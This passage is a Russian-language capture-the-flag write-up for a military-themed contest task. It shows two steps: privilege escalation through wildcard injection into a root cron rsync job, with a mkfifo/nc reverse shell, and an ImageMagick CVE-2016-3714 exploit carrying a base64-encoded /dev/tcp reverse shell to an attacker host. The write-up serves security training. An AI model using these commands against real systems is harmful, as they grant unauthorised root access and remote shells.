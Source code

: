 2) Эскалация:

```
cat /etc/crontab
- */5 * * * * root cd /var/www/html/ && rsync -t *.php 1.2.3.4:source/ - через эту шляпу эскалируемся
cd /var/www/html/ или cd ..
execute -f touch -a "-- '-e sh shell.php'"
execute -f echo -a "'#!/bin/bash\nrm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.66.66.216 9999 >/tmp/f' > shell.php"
```

3) На машине атакующего:

```
nc -nvlp 9999
cat /flag.txt
```


## Захват инфраструктуры противника (ч.3) - 1000 баллов

`http://100.64.X.188`

### Description

На данном сайте противником осуществляется закупка провизии для личного состава. Чтобы снизить боевой дух противника, необходимо захватить сервер и прервать поставки продовольствия.

### Hint

Разведка обнаружила, что на данном сервисе присутствует уязвимость `CVE-2016-3714`.

### Writeup


1) Для создания полезной нагрузки использовать этот [скрипт](https://github.com/Hood3dRob1n/CVE-2016-3714)

Полезная нагрузка для получения rce:
```
sh -i >& /dev/tcp/10.66.66.216/4444 0>&1 - гоним в Base64
```

Конвертируем её в Base64 и добавляем команду на декод, запись в файл и запуск этого файла:
```
echo c2ggLWkgPiYgL2Rldi90Y3AvMTAuNjYuNjYuMjE2LzQ0NDQgMD4mMQ== | base64 -d > /tmp/test_shell.sh; bash /tmp/test_shell.sh
```

С помощью скаченного скрипта создаем `mvg` файл:
```
python2.7 imagick_builder.py
cmd
echo c2ggLWkgPiYgL2Rldi90Y3AvMTAuNjYuNjYuMjE2LzQ0NDQgMD4mMQ== | base64 -d > /tmp/test_shell.sh; bash /tmp/test_shell.sh
```
